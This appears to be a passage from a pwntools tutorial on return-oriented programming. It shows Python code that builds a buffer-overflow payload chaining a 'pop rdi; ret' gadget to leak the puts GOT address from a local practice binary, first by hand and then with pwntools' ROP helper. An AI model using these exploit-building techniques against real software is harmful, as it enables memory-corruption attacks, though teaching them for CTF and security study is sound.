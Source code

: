 The point here though is that you will have to add the discovered code base location to the offset of each discovered ROP gadget to access that gadget in memory. Unless of course you tell pwntools where the address is!


```python
exe = context.binary = ELF("./vuln")

# Let's say somehow we leaked an address, discovered the
# address of the base of the code as 0xff000000
exe.address = 0xff000000

# Now that we've done that, the ROP gadgets we can use will
# automatically add the offset to the exe.location value,
# giving the exact location of the gadget. Nice for readability.

# Now set up the rop object using the executable we defined.
rop = ROP(exe)
```

### How ROP works manually

As an example, I will try to use a very simple ROP gadget that prints out the location of the `puts` function in the GOT. To do that, we need to use a `pop rdi; ret` gadget to move the address in the GOT into the `rdi` register before we call the `puts@PLC` function. Manually, it would look something like this:

```python
pop_rdi = 0x10c
puts_plc = 0x7f0014df
puts_got = 0x7f0059cd

leaked_base = 0x55df3000

payload = b'A'*50                       # padding
payload += pack(leaked_base + pop_rdi)  # pop_rdi gadget
payload += pack(puts_got)               # address in the got
payload += pack(puts_plc)               # execute puts

p.send(payload)
```

### How to ROP like you own the place

The above addresses are all made up but you get the idea. You have to research all the address locations and set them as variables. This is fine of course, but the above can be done in pwntools very easily. To accomplish the same thing as the above, this code is functionally equivalent:

```python
exe = context.binary = ELF('./vuln')

# ... leak the address somehow...
exe.address = 0x55df3000

# build the ROP object
rop = ROP(exe)
rop.puts(exe.got.puts)
p.send(flat({50: rop}))
```
